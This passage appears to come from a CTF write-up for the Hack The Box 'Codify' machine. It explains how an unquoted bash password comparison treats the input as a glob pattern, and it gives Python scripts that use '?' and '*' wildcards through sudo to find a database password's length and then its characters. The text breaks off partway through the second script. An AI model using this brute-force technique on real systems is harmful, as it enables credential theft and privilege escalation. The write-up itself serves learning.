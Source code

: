 From this point on I understood what happened. The part that is vulnerable is that part of the code :

```bash
if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi
```

If `$USER_PASS` is `*`, then whatever `$DB_PASS` is, the equality test `DB_PASS == USER_PASS` will always return true since in bash `*` means any string litteral of arbitrary size. Now we can use further pattern matching to guess the size of the string. To do this, we will use the `?` pattern which represent 1 character. If we try `?` then `??` then `???` etc., it will give us  `Password confirmation failed!` until we have the right number of `?` pattern and then it will prompt us with `Password confirmed!`. Here is the python script that guess the good number of character :

```python
import subprocess

def cmd(cmd:str) :
    return subprocess.run(cmd, shell=True, stdout=subprocess.PIPE).stdout.decode('UTF-8')

prg_path="/opt/scripts/mysql-backup.sh"

#First we need to know the length of the password :
passwd = "?"
command= "echo "+passwd+" | " + prg_path + " 2>/dev/null"

while ("Password confirmation failed!" in cmd(command)) :
    passwd += "?"
    command= "/usr/bin/echo "+passwd+" | sudo " + prg_path + " 2>/dev/null"


print("Password is of size", len(passwd))
```

The output looks like this :

<img src="/assets/img/Codify/codi8.png" alt="fuck alt attributes" style="float: left; margin-right: 10px;" width="500"/>

Now that we know the size, we can substitute the character `?` by one of the possible character for a password. We will try replacing the first `?` by one of the character for a password, iteratively until we get a `Password confirmed!`. When we get a positive for the first `?`, we do the same for the second, and so on and so forth until we get every character guessed right. Here's the complete Python code that does this and guessing the size:

```python
import subprocess
import string

def cmd(cmd:str) :
    return subprocess.run(cmd, shell=True, stdout=subprocess.PIPE).stdout.decode('UTF-8')

def change_char(string: str, pos: int, new_char) :
    string  = list(string)
    string [pos] = new_char
    string  = "".join(string)
    return string

prg_path="/home/kyll/Desktop/code_folder/HTB/Codify/vuln.bash"

```